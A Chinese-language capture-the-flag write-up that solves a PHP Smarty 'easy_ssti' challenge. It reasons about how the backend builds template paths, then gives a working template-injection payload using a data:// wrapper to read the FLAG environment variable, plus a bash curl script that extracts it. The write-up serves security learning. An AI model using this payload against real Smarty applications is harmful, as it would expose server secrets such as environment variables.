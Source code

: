 #Web #PHP #smarty #SSTI 

```
/
```

![[Pasted image 20230514182339.png|500]]

随便点进去一个

```
/challenges.php?name=bridge
```

留意到图片的地址

```
/bridge/bridge.jpg
```

回头看一眼

题目描述
===

> R U **SMART** ENOUGH www

题目名
===

> easy_ssti

基本可以推测出是smarty的ssti

猜测后端实现是`name`参数与`/<template_name>`拼接作为模板路径

如果只是这样还不足以构成ssti，整个提交页面有一个统一的样式表和提交面板，于是我们开一下脑洞

1. 接收`name`参数，拼接成各子目录下的模板路径，使用`file_get_contents`直接读取模板内容
2. 将模板内容直接`sprintf`到一个全局的模板中（血压升高～）
3. 渲染这个模板（大事不妙啦）

于是构造模板字符串读取环境变量，用伪协议包装下就ok啦

```
/challenges.php?name=data://text/plain,{$smarty.env.FLAG}
```

![[Pasted image 20230514184325.png|800]]

---

一键获得flag（好像更麻烦？）

```shell
#/bin/bash

url='http://<host>:<port>/challenges.php'
payload='name=data://text/plain,{$smarty.env.FLAG}'

curl --silent $url -G --data-urlencode $payload | grep Spirit | sed -n 's/.*\(Spirit{.*}\).*/\1/p'
```